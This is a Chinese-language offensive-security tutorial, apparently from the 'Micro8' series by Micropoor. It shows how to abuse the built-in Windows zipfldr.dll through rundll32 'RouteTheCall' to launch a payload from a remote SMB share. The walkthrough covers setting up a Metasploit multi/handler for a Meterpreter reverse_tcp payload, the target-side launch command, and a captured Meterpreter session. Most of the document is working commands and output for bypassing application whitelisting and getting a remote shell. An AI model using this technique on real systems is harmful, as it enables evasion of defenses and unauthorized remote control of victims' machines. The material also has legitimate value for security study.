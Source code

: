 ```yaml
---
title: 90、基于白名单zipfldr.dll执行payload第十八季
date: 2019-09-21 19:06:56
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### zipfldr.dll简介：
zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件。

**说明：**zipfldr.dll所在路径已被系统添加PATH环境变量中，因此，zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

Windows 2003 默认位置：
```code
C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll
```

Windows 7 默认位置：
```code
C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll
```

**攻击机：**   
192.168.1.4 Debian  
**靶机：**   
192.168.1.3 Windows 7  
192.168.1.3 Windows 2003

### 配置攻击机msf：
```code
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](../do/media/9fef673f4302344108c99ae65736192b.jpg)

### 靶机执行：

```code
rundll32.exe zipfldr.dll,RouteTheCall \\192.168.1.119\share\rev_x86_53_exe.exe
```
![](../do/media/7897dfacc157ca226256c698c2c468a0.jpg)

```code
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 7 opened (192.168.1.4:53 ‐> 192.168.1.3:5245) at
2019‐01‐21 04:55:44 ‐0500

meterpreter > getuid
Server username: John‐PC\John
meterpreter > getpid
Current pid: 6988 
```
![](../do/media/c702b7cef88aa93a5dadb129d20b4917.jpg)

>   Micropoor
